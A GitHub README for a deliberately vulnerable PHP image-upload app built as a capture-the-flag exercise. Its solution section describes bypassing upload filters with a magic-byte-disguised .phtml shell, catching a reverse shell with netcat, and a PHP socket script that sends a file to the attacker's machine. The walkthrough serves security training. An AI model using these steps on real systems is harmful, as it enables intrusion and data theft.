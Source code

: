 # PHP Web Vulnerable Project

This is a **simple PHP web application** that allows users to upload an image and convert it into ASCII art. The project demonstrates basic image upload functionality with a frontend and backend component.

### Key Features:

- **Frontend Image Controller**: A JavaScript validation (`image-validation.js`) ensures that only image files are selected before uploading.
- **Backend Image Controller**: On the server side, PHP uses **Magic Bytes** validation to ensure the uploaded file is actually an image before processing it.
- **Whitelist and Blacklist Filtering**: The uploaded file is checked against a whitelist and a blacklist to ensure it is an allowed file type. If the file is not explicitly allowed, additional checks are performed to inspect its magic bytes to verify it as a valid image.

---

## How It Works:

### 1. **Frontend Validation** (via `image-validation.js`):
When a user selects a file for upload, the `image-validation.js` script ensures that the selected file is an image (e.g., PNG, JPG). If the selected file passes this check, it is allowed for upload.

### 2. **Backend Validation**:
When the user clicks the **Upload** button, the file is sent to the server where it undergoes multiple checks:

- **Whitelist Check**: The file's extension is checked against a predefined list of allowed image extensions (`png`, `jpg`, `jpeg`, `bmp`, `gif`, `webp`). If the extension is in the whitelist, the file passes this check.
  
- **Blacklist Check**: If the file's extension is **not** in the whitelist, it is checked against a blacklist of dangerous or disallowed file types (e.g., `php`, `exe`, `zip`, `pdf`). If the file is on the blacklist, the upload is rejected.
  
- **Magic Bytes Check**: If the file is not on the whitelist or blacklist, the server checks the file’s **magic bytes** to ensure that the file is a valid image type. If the magic bytes do not match any of the allowed image MIME types (e.g., `image/jpeg`, `image/png`), the upload is rejected.

### 3. **Uploading the File**:
If the file passes all checks (whitelist, blacklist, and magic bytes validation), it is saved to the server in the `uploads/` directory. An ASCII representation of the image is then generated and saved to the `ascii_output/` directory. This ASCII representation is created using the `jp2a` command.

---

## Installation

To quickly set up and run this project, you can use Docker. The project is packaged as a Docker image available on Docker Hub.

### Steps to Install and Run with Docker:

1. **Pull the Docker Image**  
   To pull the Docker image for this project, use the following command:

   ```bash
   docker pull coduronin/php-web

2. **Run the Docker Container**  
   Once the image is pulled, run the container using this command:

   ```bash
   docker run -p 8080:80 coduronin/php-web

## Solution

To successfully retrieve the flag, follow these steps:

1. **Bypass Frontend Validation**:
   - Open **Burp Suite** and intercept the HTTP request.
   - Delete the `image-validation.js` file from the request to bypass the frontend image validation, allowing non-image files (such as a PHP shell) to be selected.

2. **Upload the PHP Shell**:
   - Choose a **PHP shell** with a `.phtml` extension. Normally, the file would be rejected, but after removing the frontend validation, you can now upload it.
   - Before uploading, modify the **magic bytes** of the file to make it appear as an image. A simple way is to add `GIF8` at the beginning of the file using Burp Suite (this mimics the magic bytes of an image file).

3. **Execute the Payload**:
   - Once the PHP shell is uploaded, set up a **listener** on your own machine to catch the reverse shell:
   
     ```bash
     nc -lvnp <your-port>
     ```

4. **Find the Flag**:
   - On the compromised system, navigate to the `/home` directory where you will find the `flag.pmg` file.
   - Copy the `flag.pmg` file to the `/tmp` directory for easier access:
   
     ```bash
     cp /home/flag.pmg /tmp/
     ```

5. **Transfer the Flag to Your Machine**:
   - On your machine, open a **netcat listener** to receive the file:
   
     ```bash
     nc -lvnp <your-port> > received_file.pmg
     ```

   - On the compromised machine, create and execute a simple PHP script to send the `flag.pmg` file to your machine:
   
     ```php
     echo "<?php
     \$host = 'IP';  // Replace with your machine's IP address
     \$port = port;  // Port to send the file on

     
     \$file = '/tmp/flag.pmg';  
     \$fp = fopen(\$file, 'rb');

     if (\$fp === false) {
         die('Failed to open file.');
     }

     // Create a socket connection
     \$socket = fsockopen(\$host, \$port);

     if (!\$socket) {
         die('Failed to connect to \$host:\$port.');
     }

     // Read the file and send it over the socket
     while (!feof(\$fp)) {
         \$data = fread(\$fp, 1024);  
         fwrite(\$socket, \$data);  
     }

     fclose(\$fp);
     fclose(\$socket);

     echo 'File sent successfully!';
     ?>" > send.php
     ```

6. **Fix the Magic Bytes**:
   - After receiving the `flag.pmg` file on your local machine, it may not be a valid PNG image due to the incorrect magic bytes. Modify the magic bytes of the file to match the correct PNG header (`89 50 4E 47 0D 0A 1A 0
   - Once the magic bytes are corrected, you can open the file as an image and view the flag.
By following these steps, you will successfully retrieve the flag from the compromised system.





